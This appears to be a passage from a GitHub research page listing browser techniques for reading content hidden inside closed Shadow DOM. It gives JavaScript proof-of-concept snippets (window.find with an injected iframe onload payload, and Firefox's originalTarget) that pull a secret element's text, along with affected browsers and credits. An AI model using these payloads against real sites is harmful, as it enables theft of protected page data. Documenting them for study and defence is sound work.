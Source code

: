 ### Affected browsers
Chrome, Firefox, Safari

### Notes
* To reproduce this on Safari, focus must be set to an element inside the Shadow DOM before executing `window.find()`.

### Credits
[Ankur Sundara](https://blog.ankursundara.com/shadow-dom/)

## document.execCommand('insertHTML')
```js
window.find('contenteditable area'); // for selecting string placed in Shadow area without user interaction
document.execCommand('insertHTML',false,'<iframe onload=alert(getRootNode().querySelector("#secret").textContent)>');
```
### Impact
DOM node-level access

### Affected browsers
Chrome, Firefox, Safari

### Notes
* To reproduce this on Safari, focus must be set to an element inside the Shadow DOM before executing `window.find()`.
* Additionally, Safari adds HTML inside the shadow but performs HTML sanitization, so the DOM node-level access is only possible if the bypass succeeds. The above PoC can not bypass the sanitization.

### Credits
[Ankur Sundara](https://blog.ankursundara.com/shadow-dom/)

## Event.prototype.originalTarget
```js
//Put mouse cursor on Shadow area
window.onmousemove = function(event){
  elem = event.originalTarget;
  root = elem.getRootNode();
  if(root instanceof ShadowRoot){
    alert(root.querySelector('#secret').textContent);
  }
}
```
### Impact
DOM node-level access

### Affected browsers
Firefox
